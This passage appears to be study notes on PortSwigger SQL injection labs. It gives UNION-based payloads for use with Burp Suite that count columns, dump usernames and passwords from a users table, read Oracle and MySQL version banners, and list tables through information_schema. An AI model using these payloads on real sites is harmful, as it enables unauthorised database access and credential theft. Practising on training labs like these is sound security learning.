 1. Use Burp Suite to intercept the request. Main purpose of this method is we can modify the request to attack the website using our own payload using burp.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the category parameter:

`'+UNION+SELECT+NULL,'abc'--`
3. Use the following payload to retrieve the contents of the users table:

'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
4. Verify that the application's response contains usernames and passwords.

## EXAMINING THE DATABASE

https://portswigger.net/web-security/sql-injection/cheat-sheet

## SQL injection attack, querying the database type and version on Oracle

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

`'+UNION+SELECT+'abc','def'+FROM+dual--`
3. Use the following payload to display the database version:

`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

## SQL injection attack, querying the database type and version on MySQL and Microsoft

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

`'+UNION+SELECT+'abc','def'#`
3. Use the following payload to display the database version:

`'+UNION+SELECT+@@version,+NULL#`

## SQL injection attack, listing the database contents on non-Oracle databases

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

`'+UNION+SELECT+'abc','def'--`
3. Use the following payload to retrieve the list of tables in the database:

`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
